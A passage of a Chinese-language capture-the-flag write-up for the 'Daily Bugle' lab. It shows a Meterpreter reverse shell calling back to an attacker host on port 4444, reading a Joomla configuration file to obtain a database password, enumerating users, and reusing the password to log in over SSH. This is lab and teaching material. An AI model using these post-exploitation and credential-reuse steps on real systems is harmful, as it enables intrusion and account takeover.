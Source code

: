 ```
[*] Started reverse TCP handler on attacker.thm:4444 
[*] Sending stage (39927 bytes) to dailybugle.thm
[*] Meterpreter session 1 opened (attacker.thm:4444 -> dailybugle.thm:42632) at [redacted]

**meterpreter >**
```

我再次引用了 ["MurilandOracle" (2020)](https://muirlandoracle.co.uk/2020/02/08/daily-bugle-write-up/) 来查找用户的标志文件，并使用了以下方法:我将转储目标系统的`configuration.php`文件，以获得一个用于凭证重用的密码:

```
**meterpreter > pwd**
/var/www/html/templates/protostar
**meterpreter > cd ../..
meterpreter > pwd**
/var/www/html
**meterpreter > cat configuration.php**
<?php
class JConfig {

[... snip ...]

        public $host = 'localhost';
        public $user = 'root';
        **public $password = 'nv5uz9r3ZEDzVjNu';**
        public $db = 'joomla';

[... snip ...]

        public $shared_session = '0';
}**meterpreter >**
```

我可以通过运行`/home`目录的`ls`来枚举系统上的用户:

```
}**meterpreter > ls /home**
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040700/rwx------  99    dir   2019-12-15 19:47:48 -0500  jjameson

**meterpreter >**
```

我可以推断目标系统有一个名为`jjameson`的用户，并猜测他们的密码是`nv5uz9r3ZEDzVjNu`。我可以通过使用`ssh`实用程序访问他们的帐户来测试这个假设:

```
**┌──(dna㉿deniers)-[~/dailybugle]
└─$ ssh jjameson@dailybugle.thm** 
jjameson@dailybugle.thm's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
**[jjameson@dailybugle ~]$**
```
